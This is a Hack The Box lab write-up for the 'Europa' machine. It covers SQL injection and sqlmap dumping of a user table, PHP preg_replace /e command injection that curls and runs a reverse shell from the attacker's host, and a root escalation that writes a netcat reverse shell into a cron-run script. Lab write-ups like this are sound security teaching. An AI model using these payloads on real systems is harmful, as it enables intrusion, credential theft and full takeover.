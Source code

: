 ```yaml
---
title: Europa
author: fieldraccoon
date: 2020-07-11 
categories: [hack-the-box, linux]
tags: [hack-the-box, sql, sqli, medium, burpsuite]
math: true
---
```


Europa was a medium linux box that required an sql injection to bypass login followed by a reverse shell in the place of parameters using burpsuite, root involved enumeration of a cronjobs file being ran as root to get a shell.

# USER

## enumeration

Of course we start off with an nmap scan to reveal 2 main ports needed for this challenge.

```bash
root@kali:/home/kali/boxes/europa# nmap -sC -sV -o nmap 10.10.10.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:07 EDT
Nmap scan report for 10.10.10.22
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Sql injection

In the SSL cert for https we can see that there is a subdomain called `admin-portal` running on the domain `europacorp.htb`. 

We add both of theese to our hosts file and enumerate the site on https.

We are greeted by a login page and we intercept the request with burpsuite to take a look at the parameters that it is executing.

It simply just asks for an email and a username. We start off with some simple sql injection tests to see if the site is vulnerable.

We get a redirect to a dashboard page with the parameters:
```bash
email=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

This is one way of doing it but i will cover another method using sqlmap.

As we know that the site is vulnerable we test params with sqlmap.

Theese are the commands that i used:
```bash
sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –dbs

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables -D admin

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables –columns -D admin -T users

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users –dump password
```

The final command brings us the password dump:
```bash
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

We decrypt the password and login with `admin@europacorp.htb:SuperSecretPassword!` , note that this is an md5 hash that can be decrypted with an online tool.

After logging in we navigate to tools where we can see what seems to be an openvpn config file.

```bash
"openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}

```

We press generate and intercept this again with burpsuite.

```bash
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

This is what it brings back, essentially url encoded the config above with a pattern param and ip address parameter. We tweak this to get command execution.
```bash
pattern=/ip_address/e&ipaddress=system('whoami')&text=....
```

This brings back the result `www-data` so we know we can continue with this.

After alot of tweaking we change it to get a file from our box and execute it.
```bash
pattern=/vtun0/e&ipaddress=system('curl+http%3a//10.10.xx.xx%3a8000/php-reverse-shell.php+|+php')&text=...
```

We get a connection on our netcat listener and we get a shell on the box!

## User flag

```bash
kali@kali:~/boxes/europa$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33246
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:06:16 up 4 min,  0 users,  load average: 0.01, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
john
$ cd john
$ cat user.txt
2f8d40{...}
```

## enumeration 

After running `pspy` on the system we find a binary `clearlogs` running as root on the system. We read the file to take a look at it.

>clearlogs:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

We can see that it is running the file `logcleared.sh` in the system so we will see if we can change the contents of that file to give us a root shell.

We echo a reverse shell to the file and wait a few seconds for it to execute and we get our shell.
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
$ chmod 777 /var/www/cmd/logcleared.sh


root@kali:/home/kali/boxes/europa# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33248
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7f19438b275{...}
```

Thanks for reading hope that you enjoyed.
